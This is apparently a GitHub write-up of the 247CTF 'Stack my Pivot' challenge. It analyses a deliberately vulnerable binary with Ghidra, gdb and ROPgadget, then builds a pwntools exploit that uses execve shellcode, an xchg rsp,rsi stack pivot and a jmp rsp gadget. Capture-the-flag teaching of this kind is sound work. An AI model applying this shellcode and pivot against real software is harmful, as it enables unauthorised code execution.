






# 247ctf-Stack-my-Pivot-Writeup
Try this challenge for yourself [here](https://247ctf.com/).


I found no writeup online for this challenge so here is one.

So There is the challenge:


We learn that the buffers will be small.
Let's look at it inside ghidra.

## Ghidra



Nothing interesting in the main function, let's look at the chall function.



So two buffers, the first one is large but cannot be overflowed the second is very small but can be overflowed by 8 bytes.

It appears simple enough, put some shellcode inside the first one, jump to it from the second one.

Let's analyze all this in gdb.


## GDB

First let's check security and permissions.
> checksec ./stack_my_pivot

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x400000)
RWX:      Has RWX segments
```

No PIE, nice. 64bit, wait we only read 24bytes, that's not a lot. Well this probably wont be a problem later.

I use gdb gef but use whatever you want

> gef> vmmap

```
0x0000000000400000 0x0000000000401000 0x0000000000000000 r-x /home/emanone/Documents/CTF/247CTF/Pwn/StackPivot/stack_my_pivot
0x0000000000600000 0x0000000000601000 0x0000000000000000 r-- /home/emanone/Documents/CTF/247CTF/Pwn/StackPivot/stack_my_pivot
0x0000000000601000 0x0000000000602000 0x0000000000001000 rw- /home/emanone/Documents/CTF/247CTF/Pwn/StackPivot/stack_my_pivot
0x00007ffff7dcf000 0x00007ffff7dd1000 0x0000000000000000 rw- 
0x00007ffff7dd1000 0x00007ffff7df7000 0x0000000000000000 r-- /usr/lib/libc-2.32.so
0x00007ffff7df7000 0x00007ffff7f44000 0x0000000000026000 r-x /usr/lib/libc-2.32.so
0x00007ffff7f44000 0x00007ffff7f90000 0x0000000000173000 r-- /usr/lib/libc-2.32.so
0x00007ffff7f90000 0x00007ffff7f93000 0x00000000001be000 r-- /usr/lib/libc-2.32.so
0x00007ffff7f93000 0x00007ffff7f96000 0x00000000001c1000 rw- /usr/lib/libc-2.32.so
0x00007ffff7f96000 0x00007ffff7f9c000 0x0000000000000000 rw- 
0x00007ffff7fca000 0x00007ffff7fce000 0x0000000000000000 r-- [vvar]
0x00007ffff7fce000 0x00007ffff7fd0000 0x0000000000000000 r-x [vdso]
0x00007ffff7fd0000 0x00007ffff7fd2000 0x0000000000000000 r-- /usr/lib/ld-2.32.so
0x00007ffff7fd2000 0x00007ffff7ff3000 0x0000000000002000 r-x /usr/lib/ld-2.32.so
0x00007ffff7ff3000 0x00007ffff7ffc000 0x0000000000023000 r-- /usr/lib/ld-2.32.so
0x00007ffff7ffc000 0x00007ffff7ffd000 0x000000000002b000 r-- /usr/lib/ld-2.32.so
0x00007ffff7ffd000 0x00007ffff7fff000 0x000000000002c000 rw- /usr/lib/ld-2.32.so
0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rwx [stack]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 --x [vsyscall]
```

Executable stack, nice. Let's assume ASLR is on (it is).

Ok let's see what registers we can overwrite.
We now the read is 0x1c so 24.

> pattern create 28
```
[+] Generating a pattern of 28 bytes
aaaaaaaabaaaaaaacaaaaaaadaaa
[+] Saved as '$_gef0
```

We know the first one cannot be overflowed so let's not bother trying it.

> gef➤  c
```
Continuing.
[+] Welcome!
[+] What's your first name?
smth 
[+] What's your surname?
aaaaaaaabaaaaaaacaaaaaaadaaa
```



So we write *%rsi* and we overwrite the 4 lower bytes of *%rip*, shit.

## Pwntools

Let's start using pwntools:
> pwn template ./stack_my_pivot --host 866e421af4e2b022.247ctf.com --port 50086 > exploit.py

I also like to add 
```
context.terminal = ['tmux', 'splitw', '-h']
```

To make debugging a real pleasure

``` python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template ../stack_my_pivot --host 866e421af4e2b022.247ctf.com --port 50086
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('../stack_my_pivot')
context.terminal = ['tmux', 'splitw', '-h']
# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or '866e421af4e2b022.247ctf.com'
port = int(args.PORT or 50086)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak *0x{exe.entry:x}
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX disabled
# PIE:      No PIE (0x400000)
# RWX:      Has RWX segments

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)

io.interactive()
```

We also know that *%rip* is at offset 24/

``` python
rip_offset = 24
```

We know that the stack is executable so let's put some shellcode inside the first buffer

``` python
def send_shellcode():
    shellcode = b"\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05" #shellcraft.sh() has invalid chars

    log.info("sending shellcode")
    io.sendline(shellcode)
```

shellcode is from ["shellstorm"](http://shell-storm.org/shellcode/files/shellcode-905.php)

Now we fill the first buffer with shellcode, let's jump to it.

We need to modify %rsp% to point at the first buffer.
After the overflow the function leaves and calls main so the 4 higher byter of *%rsi* will be all zeroes so we can use a gadget in this range by overwriting the four lower bytes.

What gadgets do we have:

> ROPgadget --binary ./stack_my_pivot

There's a lot so let focus on what we want.
We want *%rsp* to point at one of the buffers since it is where we can execute code. 
Good news *%rsi* contains the address of the second buffer.

Let's see if we can use that.

> ROPgadget --binary ./stack_my_pivot | grep "rsi"

```
0x0000000000400730 : mov ebp, esp ; xchg rsp, rsi ; nop ; pop rbp ; ret
0x000000000040072f : mov rbp, rsp ; xchg rsp, rsi ; nop ; pop rbp ; ret
0x0000000000400831 : pop rsi ; pop r15 ; ret
0x000000000040072e : push rbp ; mov rbp, rsp ; xchg rsp, rsi ; nop ; pop rbp ; ret
0x0000000000400732 : xchg rsp, rsi ; nop ; pop rbp ; ret
```

Good that's a lot less. Last one seems intresting.
xchg exchanges the value of two registers, sweet we can make *%rsp* point at our second buffer and the *ret* instruction will load it inside *%rip*.
Only thing is, *pop* increases the value of *%rsp* by 8, we loose 8bytes of our already tiny buffer, well we will have to do like that.

So now we can go to *%rsp* the problem being we want to go to what's inside it, we need a *jmp rsp*, conveniently there is one.

> ROPgadget --binary ../stack_my_pivot | grep "jmp" | grep "rsp"

```
0x0000000000400738 : jmp rsp
```

Great, so in theory we have what we need to execute some code inside the seconde buffer. Let's see what it looks like in pwntools:

``` python

jmp_rsp = 0x400738 #jmp rsp gadget
gadget = 0x400732  # exch rsi, rsp; pop rbp; ret

def send_payload():
    payload = 8 * b'\x90' #The pop rbp adds 8 to rsp so this instruction is ignored
    payload += p64(jmp_rsp) #Jmp rsp gadget which allows us to execute code
    payload += 8 * b'\x90' # 8bytes of code we can actually write
    payload += p64(gadget) # exch rsi, rsp; pop rbp; ret

    log.info("sending payload")
    io.sendline(payload)
```

Now with the 8 bytes of instructions we have we need to set *%rsp* so the value of the first bigger buffer and jump to it.

Both buffers are on the stack, so they will always have the same distance between them.



Oh ghidra how did people do before you came out.

So the first buffer that contains our shellcode is always *0x40* before the second.

So now we have everything we need, we substract 0x40 from *%rsp* and jmp to it.

```
def send_payload():
    payload = 8 * b'\x90' #The pop rbp adds 8 to rsp so this instruction is ignored
    payload += p64(jmp_rsp) #Jmp rsp gadget which allows us to execute code
    payload += asm("sub rsp,0x40; jmp rsp; nop; nop")
    payload += p64(gadget) # exch rsi, rsp; pop rbp; ret

    log.info("sending payload")
    io.sendline(payload)
```

We had two *nop* so that the payload stays aligned.
So yay it should work, well it doesn't.

The pop which occurs after the register exchange added 8 to *%rsp* and the *ret* instruction added 2.


```
def send_payload():
    payload = 8 * b'\x90' #The pop rbp adds 8 to rsp so this instruction is ignored
    payload += p64(jmp_rsp) #Jmp rsp gadget which allows us to execute code
    payload += asm("sub rsp,0x50; jmp rsp; nop; nop")
    payload += p64(gadget) # exch rsi, rsp; pop rbp; ret

    log.info("sending payload")
    io.sendline(payload)
```



## Win

Yes, I had a lot of trouble on this challenge and spent a whole night on it. There were no writeups online so I really had to struggle but I learned a lot.

Full exploit is on the repo but you should try to redo it by yourself.

*kisses Pim*

## Thanks
I was really stuck on this challenge and the creator [Razvi](https://twitter.com/Razvieu) had the kindness of helping me ! Thanks to him for his time and for the challenge.